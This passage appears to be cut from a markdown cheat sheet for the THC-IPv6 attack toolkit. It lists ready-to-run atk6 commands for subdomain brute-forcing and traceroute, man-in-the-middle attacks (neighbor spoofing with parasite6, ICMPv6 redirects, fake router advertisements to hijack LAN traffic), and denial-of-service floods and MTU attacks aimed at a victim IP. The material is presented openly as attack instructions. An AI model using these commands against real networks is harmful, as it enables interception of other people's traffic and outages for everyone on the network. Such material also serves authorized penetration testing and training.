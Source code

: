 #### **Brute Force IPv6 Subdomains - `dnsdict6`**
Discover subdomains of a target:
```bash
atk6-dnsdict6 example.com
```

#### **IPv6 Traceroute - `trace6`**
Find network paths with **ICMP6 echo requests & TCP SYN**:
```bash
atk6-trace6 -i eth0 google.com
```

---

### **🕵️‍♂️ 2. Man-in-the-Middle (MITM) Attacks**
#### **ICMPv6 Spoofing - `parasite6`**
Intercept traffic using **neighbor spoofing** (similar to ARP spoofing in IPv4):
```bash
atk6-parasite6 -i eth0 victim-ip
```

#### **ICMPv6 Redirect Attack - `redir6`**
Redirect traffic **intelligently** to your machine:
```bash
atk6-redir6 -i eth0 victim-ip
```

#### **Fake Router Advertisement - `fake_router6`**
Make your machine **act as a router** with highest priority:
```bash
atk6-fake_router6 eth0
```
💡 **Hijack IPv6 traffic on a LAN.**  

---

### **⚡ 3. Denial-of-Service (DoS) Attacks**
#### **Flood IPv6 Router Advertisements - `flood_router6`**
Crash a network by overloading it with **random router advertisements**:
```bash
atk6-flood_router6 eth0
```

#### **Neighbor Advertisement Flooding - `flood_advertise6`**
Spam a network with **fake IPv6 addresses**:
```bash
atk6-flood_advertise6 eth0
```

#### **MTU Attack - `toobig6`**
Reduce Maximum Transmission Unit (MTU), slowing down connections:
```bash
atk6-toobig6 eth0 victim-ip
```
